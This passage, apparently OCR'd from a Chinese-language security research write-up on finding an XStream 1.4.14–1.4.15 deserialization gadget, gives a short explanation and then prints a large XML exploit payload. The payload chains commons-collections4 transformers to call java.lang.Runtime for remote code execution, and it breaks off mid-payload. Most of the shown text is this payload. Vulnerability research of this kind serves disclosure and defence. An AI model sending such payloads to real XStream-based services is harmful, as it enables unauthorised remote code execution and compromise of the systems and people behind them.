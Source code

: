 当跟入到这里的时候，立马去看了一下transformer定义

![image-20210119114225281](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119114225281.png)

这就意味着可以将它赋值为ChainTransFormer打循环反射RCE，payload如下：

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.messaging.saaj.packaging.mime.internet.MimePartDataSource'>
                        <part>
                            <mimePart>
                                <dataHead>
                                    <part>
                                        <msg>
                                            <it class="org.apache.commons.collections4.iterators.ObjectGraphIterator">
                                                <stack class="java.util.ArrayDeque" serialization="custom">
                                                    <unserializable-parents/>
                                                    <java.util.ArrayDeque>
                                                        <default/>
                                                        <int>0</int>
                                                    </java.util.ArrayDeque>
                                                </stack>
                                                <root class="java.lang.String">
                                                    <it>
                                                        <outer-class reference="../.."/>
                                                    </it>
                                                </root>
                                                <transformer class="org.apache.commons.collections4.functors.ChainedTransformer">
                                                    <iTransformers>
                                                        <org.apache.commons.collections4.functors.ConstantTransformer>
                                                            <iConstant class="java-class">java.lang.Runtime</iConstant>
                                                        </org.apache.commons.collections4.functors.ConstantTransformer>
                                                        <org.apache.commons.collections4.functors.InvokerTransformer>
                                                            <iMethodName>getMethod</iMethodName>
                                                            <iParamTypes>
                                                                <java-class>java.lang.String</java-class>
                                                                <java-class>[Ljava.lang.Class;</java-class>
                                                            </iParamTypes>
                                                            <iArgs>
                                                                <string>getRuntime</string>
                                                                <java-class-array/>
                                                            </iArgs>
                                                        </org.apache.commons.collections4.functors.InvokerTransformer>
                                                        <org.apache.commons.collections4.functors.InvokerTransformer>
                                                            <iMethodName>invoke</iMethodName>
                                                            <iParamTypes>
```
